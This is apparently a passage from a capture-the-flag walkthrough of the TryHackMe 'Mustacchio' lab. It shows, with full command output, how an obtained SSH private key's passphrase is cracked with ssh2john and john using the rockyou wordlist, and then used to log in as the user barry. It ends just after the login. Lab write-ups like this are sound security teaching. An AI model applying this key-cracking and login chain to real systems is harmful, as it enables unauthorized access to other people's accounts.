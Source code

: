 ## Connecting to SSH

Save the private key in a file and set its permssion to 600. After doing so, we can use it to connect to the machine via SSH, but we are asked for a passphrase:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mustacchio/files]
└─$ chmod 600 barry_rsa  
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mustacchio/files]
└─$ ssh -i barry_rsa barry@$IP 
Enter passphrase for key 'barry_rsa': 
barry@10.10.38.188: Permission denied (publickey).
~~~

Let's crack it. I used an additional tool called `ssh2john` which changes the format of the private key to be crackable by `john`. Then I used `john` and `rockyou` wordlist to crack it:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mustacchio/files]
└─$ /usr/share/john/ssh2john.py barry_rsa > key.hash
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mustacchio/files]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt key.hash                    
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
urieljames       (barry_rsa)     
1g 0:00:00:02 DONE (2021-11-22 09:40) 0.4310g/s 1280Kp/s 1280Kc/s 1280KC/s urieljr..urielfabricio
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
~~~

Now we have the password for the private key: `urieljames`

## User flag

Now we can connect to the machine via SSH and read the user flag located in barry's home directory:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mustacchio/files]
└─$ ssh -i barry_rsa barry@$IP
Enter passphrase for key 'barry_rsa': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$ ls
~~~